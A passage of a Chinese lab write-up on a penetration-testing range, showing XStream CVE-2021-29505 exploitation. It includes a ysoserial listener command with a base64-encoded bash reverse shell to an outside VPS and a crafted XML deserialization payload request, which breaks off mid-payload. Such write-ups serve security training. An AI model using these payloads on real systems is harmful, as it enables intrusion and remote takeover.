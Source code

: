 进击下一个，来到`Delivery`靶标，看解的人数还行。1 沙烁直接开干，总体打的挺舒服的

*靶标介绍：*

在这个靶场中，您将扮演一名渗透测试工程师，受雇于一家名为 Delivery 的小型科技初创公司，并对该公司进行一次渗透测试。你的目标是成功获取域控制器权限，以评估公司的网络安全状况。该靶场共有 4 个 Flag，分布于不同的靶机。

### Xstream RCE

这个一开始不够仔细，注意需要修改两处地址。来源漏洞

XStream 是一个轻量级、简单易用的开源 Java 类库，它主要用于将对象序列化成 XML（JSON）或反序列化为对象。

XStream 在解析 XML 文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用`sun.rmi.registry.RegistryImpl_Stub`构造 RMI 请求，进而执行任意命令。

[https://github.com/vulhub/vulhub/blob/master/xstream/CVE-2021-29505/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/xstream/CVE-2021-29505/README.zh-cn.md)

VPS 监听 1099 端口，开启服务

```plain
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTEuMjI5LjE1OC40MC82NjY2IDA+JjE=}|{base64,-d}|{bash,-i}"
```

[![](assets/1709193375-979d2091be15249ca430d78185df9a66.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205137-f1829a3a-d56e-1.png)

burp 传参接口`/just_sumbit_it`，注意修改 VPS 地址

```plain
POST /just_sumbit_it HTTP/1.1
Host: 39.99.154.52:8080
Content-Length: 3119
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Content-Type: application/xml;charset=UTF-8
Origin: http://39.99.154.52:8080
Referer: http://39.99.154.52:8080//
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
```